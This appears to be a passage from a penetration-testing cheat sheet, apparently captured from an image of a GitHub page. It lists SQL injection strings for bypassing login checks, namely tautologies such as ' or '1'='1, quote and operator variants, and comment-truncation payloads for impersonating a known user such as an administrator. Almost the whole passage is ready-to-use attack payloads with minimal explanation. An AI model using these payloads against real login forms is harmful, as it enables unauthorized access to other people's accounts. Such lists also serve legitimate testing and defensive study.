 The most classic ones:

```
' or '1'='1
' or 1=1-- -
' or 1=1# 
```

Then others:

```
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

## Knowing the username

When we are aware of some username we can impersonate him with SQLi by introducing the username and commenting the rest of the SQL Query.

```
administrator'-- -
administrator'# 
```
